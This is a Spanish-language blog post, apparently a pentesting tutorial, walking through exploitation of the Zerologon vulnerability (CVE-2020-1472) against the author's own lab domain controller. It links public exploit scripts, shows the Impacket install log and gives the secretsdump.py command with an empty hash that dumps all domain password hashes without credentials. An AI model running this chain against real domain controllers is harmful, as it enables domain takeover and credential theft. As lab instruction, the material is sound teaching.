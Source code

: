 ```yaml
---
layout: single
title: Cómo explotar la vulnerabilidad Zerologon
excerpt: "Mucho se está hablando acerca de la nueva vulnerabilidad Zerologon, pero... ¿realmente es crítica?. Lo analizaremos en detalle en este artículo."
date: 2020-09-16
classes: wide
header:
  teaser: /assets/images/zerologon/zerologon.png
  teaser_home_page: true
categories:
  - Research
  - Utilidades
  - Exploits
  - Vulnerabilidades
tags:
  - Pentesting
  - Herramientas
  - Windows
  - Linux
  - Domain Controller
  - Guías
  - Privilege Escalation
---
```


![](/assets/images/zerologon/zerologon.png)

## ¿Es realmente crítico Zerologon?

La respuesta es un **si** rotundo. No creo que haga falta a estas alturas comentar qué es Zerologon... ya existen montón de artículos a disposición detallando de forma técnica y ejecutiva en qué consiste la vulnerabilidad.

Centrémonos en la explotación, ¿cómo se explota zerologon?, vamos a ello. En mi caso comenzaré haciendo uso de la siguiente utilidad:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

Este recurso, nos permitirá a través del script `zerologon_tester.py`, saber si el DC en cuestión es vulnerable ante el ataque. Yo ya dispongo de un DC virtualizado contra el que lanzar el tester, en caso de no contar con uno, te recomiendo hacer uso de la utilidad '**AD-AutomationLab**', una herramienta en PowerShell que desarrollé para el despliegue automatizado de un Domain Controller entre otras cosas (también es capaz de configurar vulnerabilidades reconocidas sobre el servidor).

Por aquí os dejo el enlace para aquellos/as que lo quieran usar:

* [https://github.com/k4lelv/AD-AutomationLab](https://github.com/k4lelv/AD-AutomationLab)


## ¿Cómo se explota la vulnerabilidad Zerologon?

Una vez tengamos ya el Domain Controller operando, podremos empezar. La dirección IP de mi DC en este caso es la `192.168.101.130`, y la dirección IP de mi equipo atacante la `192.168.101.128`.

Partiendo de este punto, estos son los resultados obtenidos al lanzar el tester sobre el DC:

<p align="center">
<img src="/assets/images/zerologon/1.png">
</p>

Toda la información referente al nombre de equipo, dominio y demás puede obtenerse rápidamente desde CrackMapExec con un simple escaneo por Samba:

<p align="center">
<img src="/assets/images/zerologon/2.png">
</p>

En base a los resultados de la primera foto, vemos que el DC es vulnerable. Lo único que nos queda por tanto es explotar la vulnerabilidad.

En esta ocasión, estaré usando el siguiente recurso de la plataforma de GitHub:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Esta utilidad cuenta con un script de nombre `cve-2020-1472-exploit.py`, el cual como información nos solicita el nombre del equipo y la dirección IP de la máquina víctima.

Antes de explotar la vulnerabilidad, para evitar problemas con Impacket, recomiendo tirar de `virtualenv` para tras su instalación ejecutar posteriormente la herramienta. Sería seguir básicamente los siguientes pasos:

```bash
┌─[root@parrot]─[/home/k4lelv/Desktop]
└──╼ #virtualenv zerologon
created virtual environment CPython3.8.2.final.0-64 in 178ms
  creator CPython3Posix(dest=/home/k4lelv/Desktop/zerologon, clear=False, global=False)
  seeder FromAppData(download=False, CacheControl=latest, appdirs=latest, certifi=latest, chardet=latest, colorama=latest, contextlib2=latest, distlib=latest, distro=latest, html5lib=latest, idna=latest, ipaddr=latest, lockfile=latest, msgpack=latest, packaging=latest, pep517=latest, pip=latest, pkg_resources=latest, progress=latest, pyparsing=latest, pytoml=latest, requests=latest, retrying=latest, setuptools=latest, six=latest, urllib3=latest, webencodings=latest, wheel=latest, via=copy, app_data_dir=/root/.local/share/virtualenv/seed-app-data/v1.0.1.debian)
  activators BashActivator,CShellActivator,FishActivator,PowerShellActivator,PythonActivator,XonshActivator
┌─[root@parrot]─[/home/k4lelv/Desktop]
└──╼ #source zerologon/bin/activate
(zerologon) ┌─[root@parrot]─[/home/k4lelv/Desktop]
└──╼ #cd /opt/
(zerologon) ┌─[root@parrot]─[/opt]
└──╼ #git clone https://github.com/SecureAuthCorp/impacket
Clonando en 'impacket'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (26/26), done.
remote: Total 18517 (delta 19), reused 26 (delta 13), pack-reused 18478
Recibiendo objetos: 100% (18517/18517), 6.17 MiB | 5.96 MiB/s, listo.
Resolviendo deltas: 100% (14103/14103), listo.
(zerologon) ┌─[root@parrot]─[/opt]
└──╼ #cd impacket/
(zerologon) ┌─[root@parrot]─[/opt/impacket]
└──╼ #python3 setup.py install

...

```

Una vez hecho, la ejecución del exploit debe devolver un output como este en caso de éxito:

<p align="center">
<img src="/assets/images/zerologon/3.png">
</p>

Si esto es así, ya todo lo demás está hecho. Lo único que tendríamos que hacer, tal y como nos indica el README del siguiente recurso:

* [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)

Sería ejecutar la siguiente sentencia:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```

Para mi caso quedaría de la siguiente forma:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 's4vicorp/DC-Company$@192.168.101.130'
```

Obteniendo los siguientes resultados tras su ejecución:

<p align="center">
<img src="/assets/images/zerologon/4.png">
</p>

Conseguimos listar los hashes de todos los usuarios existentes a nivel de dominio, incluido aquellos que sean administradores del dominio. Básicamente el mismo efecto que obtendríamos si desde CrackMapExec hubiéramos hecho uso de la acción `--ntds vss`, pero claro... en ese caso habríamos necesitado credenciales válidas, lo bueno del Zerologon es que no hace falta nada de eso :)
